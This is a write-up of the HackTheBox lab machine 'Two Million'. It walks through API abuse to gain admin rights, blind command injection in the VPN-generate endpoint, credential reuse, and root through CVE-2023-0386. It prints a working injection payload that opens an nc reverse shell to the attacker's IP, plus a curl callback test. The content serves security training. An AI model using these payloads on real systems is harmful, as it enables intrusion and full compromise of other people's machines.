

# Two Million

[Two Million](https://www.hackthebox.com/machines/twomillion) is a *easy* machine on HackTheBox. It involves API enumeration, privilege escalation on web application as well as a kernel exploit on the host.

### Table of Contents

- [Enumeration](#enumeration)
  - [Rustscan](#rustscan)
  - [Website](#website)
  - [Invite Code](#invite-code)
  - [API](#api)
  - [Command Injection](#command-injection)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

## Enumeration

### Rustscan

We start by running Rustscan to find open ports on the target machine.


Two ports are open: 22 (SSH) and 80 (HTTP).

Let's start by visiting the website.

### Website

Nostalgia... We are greeted with the old HackTheBox website.


### Invite Code 

We need an invite code to register on the website. Let's try to find it by inspecting the source code.


We find the obfuscated invite code generator in the source code.


```javascript
eval(function(p,a,c,k,e,d))
```

This is a simple obfuscation technique. We can use a tool like [unPacker](https://matthewfl.com/unPacker.html) to deobfuscate the code.


We obtained the deobfuscated code.

```javascript
function verifyInviteCode(code)
	{
	var formData=
		{
		"code":code
	};
	$.ajax(
		{
		type:"POST",dataType:"json",data:formData,url:'/api/v1/invite/verify',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
function makeInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/how/to/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}
```

Call the `makeInviteCode()` function to generate the invite code.

```json
{ data: "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr", enctype: "ROT13" }
```

Decode the ROT13 encoded string.

```bash
echo "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr" | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Then create a new function that makes a POST request to `/api/v1/invite/generate`.

```javascript
function createInviteCode()
	{
	$.ajax(
		{
		type:"POST",dataType:"json",url:'/api/v1/invite/generate',success:function(response)
			{
			console.log(response)
		}
		,error:function(response)
			{
			console.log(response)
		}
	}
	)
}

createInviteCode()
```
This will generate the invite code as base64 encoded. Decode the base64 encoded string to get the invite code and register on the website.


This is the old HackTheBox website.

### API

When we surf the website, we find an API endpoint. 

```
http://2million.htb/api/v1/user/vpn/generate
```

I changed the `user` to `admin` and brute force to find the API endpoint. I used `Feroxbuster` for this.


However, I was not able to find any API endpoint. Tried to access the API directly like this.

```
http://2million.htb/api/v1
```

 

We find the API documentation.

Let's try to access the `/api/v1/admin/settings/update` endpoint and see if we can find any information.


I managed to elevate privilege vertically to admin by changing the account type to admin in this request.

### Command Injection

Now, we can continue to play with admin endpoints, since we have admin privileges.

```
http://2million.htb/api/v1/admin/vpn/generate
```


I tried several requests for command injection, but I was not able to retrieve the output. I then made a request to my machine to see if the command injection was working.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=vlq4dnflvs5ebkefdsu3cija6v"  --header "Content-Type: application/json" --data '{"username":"sarp && curl 10.10.14.40:8000 # "}'
```


I was successful to get the request from the server, which means the command injection is working. It's blind command injection.

I used the following payload to get the reverse shell.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=vlq4dnflvs5ebkefdsu3cija6v"  --header "Content-Type: application/json" --data '{"username":"sarp && rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 4444 >/tmp/f # "}'
```


Reverse shell as `www-data` popped up!

## Lateral Movement

I upgraded the shell to a TTY shell. Why? Because it's comfortable :)

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

While reading the web application files, I found admin credentials in the `.env` file.

```
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Since the `admin` user exists on the machine, I tried to login with the `admin` user using the password `SuperDuperPass123` on the SSH port.

 

Got the user flag!

## Privilege Escalation

Unfortunately, the `admin` user does not have permission to run `sudo` commands. 
While enumerating the machine, I found a mail file in the `/var/mail` directory.


```
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather
```

The OverlayFS / FUSE kernel exploit, CVE-2023-0386  is mentioned in the mail. I searched for the exploit and found it on [Github](https://github.com/sxlmnwb/CVE-2023-0386).

I transferred the exploit to the target machine using `python3 -m http.server` and downloaded it on the target machine. After all, I compiled the exploit and ran it.



 I got the root shell!


